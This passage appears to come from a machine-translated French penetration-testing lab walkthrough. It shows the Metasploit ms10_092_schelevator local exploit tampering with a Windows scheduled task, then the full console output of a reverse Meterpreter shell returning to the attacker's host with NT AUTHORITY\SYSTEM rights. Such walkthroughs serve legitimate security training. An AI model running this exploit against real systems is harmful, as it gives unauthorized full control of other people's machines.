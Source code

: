 #### Réception d'une coque inversée surélevée

Si tout se passe comme prévu, une fois que nous aurons tapé `exploit`, nous recevrons un nouveau shell Meterpreter en tant que compte `NT AUTHORITY\SYSTEM` et nous pourrons continuer à effectuer toute post-exploitation nécessaire.

Réception de la coque inversée surélevée

```
exploit msf6 (windows/local/ms10_092_schelevator) > exploit

[*] Démarrage du gestionnaire TCP inversé le 10.10.14.3:4443
[*] Préparation de la charge utile sur C:\Windows\TEMP\uQEcovJYYHhC.exe
[*] Création de la tâche : isqR4gw3RlxnplB
[*] RÉUSSITE : la tâche planifiée "isqR4gw3RlxnplB" a été créée avec succès.
[*] SCHELEVATEUR
[*] Lecture du contenu du fichier de tâche à partir de C:\Windows\system32\tasks\isqR4gw3RlxnplB...
[*] CRC32 d'origine : 0x89b06d1a
[*] CRC32 final : 0x89b06d1a
[*] Réécriture de notre contenu modifié...
[*] Tâche de validation : isqR4gw3RlxnplB
[*]
[*] Dossier:\
[*] Nom de la tâche État de la prochaine exécution
[*] ======================================= ======= =============== ===============
[*] isqR4gw3RlxnplB 01/06/2021 13:04:00 Prêt
[*] SCHELEVATEUR
[*] Désactivation de la tâche...
[*] SUCCÈS : Les paramètres de la tâche planifiée "isqR4gw3RlxnplB" ont été modifiés.
[*] SCHELEVATEUR
[*] Activation de la tâche...
[*] SUCCÈS : Les paramètres de la tâche planifiée "isqR4gw3RlxnplB" ont été modifiés.
[*] SCHELEVATEUR
[*] Exécution de la tâche...
[*] Étape d'envoi (175174 octets) vers 10.129.43.15
[*] RÉUSSITE : Tentative d'exécution de la tâche planifiée "isqR4gw3RlxnplB".
[*] SCHELEVATEUR
[*] Suppression de la tâche...
[*] Meterpreter session 2 ouverte (10.10.14.3:4443 -> 10.129.43.15:49634) au 2021-05-12 16:04:34 -0400
[*] RÉUSSITE : la tâche planifiée "isqR4gw3RlxnplB" a été supprimée avec succès.
[*] SCHELEVATEUR

meterpreter > getuid

Nom d'utilisateur du serveur : NT AUTHORITY\SYSTEM

meterpreter > sysinfo

Ordinateur : WINLPE-2K8
Système d'exploitation : Windows 2008 R2 (6.1 Build 7600).
Architecture : x64
Langue du système : en_US
Domaine : GROUPE DE TRAVAIL
Utilisateurs connectés : 3
Meterpreter : x86/windows

```
